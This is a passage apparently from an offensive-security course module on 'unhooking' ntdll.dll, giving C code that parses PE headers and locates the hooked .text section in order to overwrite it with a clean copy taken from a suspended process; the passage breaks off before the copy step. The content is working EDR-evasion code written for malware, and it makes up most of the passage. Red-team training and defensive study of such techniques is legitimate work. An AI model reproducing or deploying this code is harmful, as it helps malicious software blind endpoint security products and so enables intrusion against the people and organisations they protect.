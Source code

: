   

### Putting It All Together

Once a fresh copy of `ntdll.dll` has been successfully retrieved, the next step is to overwrite the hooked text section with the clean one. This is achieved using the `ReplaceNtdllTxtSection` function, as demonstrated in previous modules.

Note that the unhooked copy of `ntdll.dll` was read from a memory region where it was mapped, being the suspended process's address space. This means that the offset to the text section of the clean NTDLL file is `IMAGE_SECTION_HEADER.VirtualAddress` (4096).

```c
BOOL ReplaceNtdllTxtSection(IN PVOID pUnhookedNtdll) {

	PVOID               pLocalNtdll      = (PVOID)FetchLocalNtdllBaseAddress();

	// getting the dos header
	PIMAGE_DOS_HEADER   pLocalDosHdr      = (PIMAGE_DOS_HEADER)pLocalNtdll;
	if (pLocalDosHdr && pLocalDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
		return FALSE;

	// getting the nt headers
	PIMAGE_NT_HEADERS   pLocalNtHdrs      = (PIMAGE_NT_HEADERS)((PBYTE)pLocalNtdll + pLocalDosHdr->e_lfanew);
	if (pLocalNtHdrs->Signature != IMAGE_NT_SIGNATURE)
		return FALSE;


	PVOID		pLocalNtdllTxt	= NULL,	// local hooked text section base address
			    pRemoteNtdllTxt  = NULL; // the unhooked text section base address
	SIZE_T		sNtdllTxtSize	= NULL;	// the size of the text section


	// getting the text section
	PIMAGE_SECTION_HEADER pSectionHeader = IMAGE_FIRST_SECTION(pLocalNtHdrs);

	for (int i = 0; i < pLocalNtHdrs->FileHeader.NumberOfSections; i++) {

		// the same as if( strcmp(pSectionHeader[i].Name, ".text") == 0 )
		if ((*(ULONG*)pSectionHeader[i].Name | 0x20202020) == 'xet.') {
			pLocalNtdllTxt	= (PVOID)((ULONG_PTR)pLocalNtdll + pSectionHeader[i].VirtualAddress);
			pRemoteNtdllTxt	= (PVOID)((ULONG_PTR)pUnhookedNtdll + pSectionHeader[i].VirtualAddress);
			sNtdllTxtSize	= pSectionHeader[i].Misc.VirtualSize;
			break;
		}
	}

//---------------------------------------------------------------------------------------------------------------------------
	
	// small check to verify that all the required information is retrieved
	if (!pLocalNtdllTxt || !pRemoteNtdllTxt || !sNtdllTxtSize)
		return FALSE;

	// small check to verify that 'pRemoteNtdllTxt' is really the base address of the text section
	if (*(ULONG*)pLocalNtdllTxt != *(ULONG*)pRemoteNtdllTxt)
		return FALSE;

//---------------------------------------------------------------------------------------------------------------------------
	
	DWORD dwOldProtection = NULL;

```